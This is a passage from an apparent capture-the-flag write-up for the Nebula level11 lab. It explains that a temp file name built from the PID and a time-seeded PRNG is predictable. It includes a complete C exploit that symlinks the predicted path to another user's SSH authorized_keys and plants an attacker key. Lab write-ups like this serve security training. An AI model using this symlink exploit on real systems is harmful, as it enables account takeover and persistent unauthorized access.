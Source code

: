 ```c
  return fd;
}
```

Looking at the `getrand` function, the file name is relatively predictable as
it consists of a path determined by the `TEMP` environmental variable, the PID
of the calling process and a random number generated by a PRNG seeded with the
current time. On Linux, PID numbers are assigned sequentially on a system wide
basis.

Our aim now is to write a SSH public key to the
`/home/flag11/.ssh/authorized_keys` file. We use `ssh-keygen` to generate a
SSH keypair for the level11 user. Our exploit is written in C to ensure that
our `random` function is the same as the one used in the `flag11` binary.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>

void getrand(char **path, int pid, int time)
{
    char *tmp;
    int fd;

    srandom(time);

    tmp = getenv("TEMP");

    asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
        'A' + (random() % 26), '0' + (random() % 10),
        'a' + (random() % 26), 'A' + (random() % 26),
        '0' + (random() % 10), 'a' + (random() % 26));
}

int main(int argc, char **argv)
{
    char line[256];
    char buf[2048] = "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDiXL8q1ehvJanDxk4CpzrFHJmCM6MMPWkqPYlxAd1NZ7m9djA3Yn/zlubEbYDoPkYlq3f8eqwgzN6PQs3OhynDwzvZkBwBd30bMnPdCp4J3tPvM/UGOYV5R9pmwnMaUzLSdbT718AYGHTaWiX9j6nOYjMCg1S/zUIXykD+xlsUHcDrqs1KUHGZADoSPSkV5uEtFNqJ6I3BXaUtPm5JzwI8BF0BO3+tIcnTT8aWARLGZ/wZqx50Ia9gX0b3AM1brAStJfKy3dInRy9dFgmopZOazDI/1y0rmhSw+672zex6UVY+7tLEsOKp1bK+GHCWgpOxJHud8RTIUGpl4lEgjgNr level11@nebula";

    int pid;
    int fd;
    char *path;
    FILE* stream;

    pid = getpid() + 1;
    getrand(&path, pid, time(NULL));
    symlink("/home/flag11/.ssh/authorized_keys", path);
    fprintf(stdout, "Content-Length: 2048\n%s", buf);
}
```


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md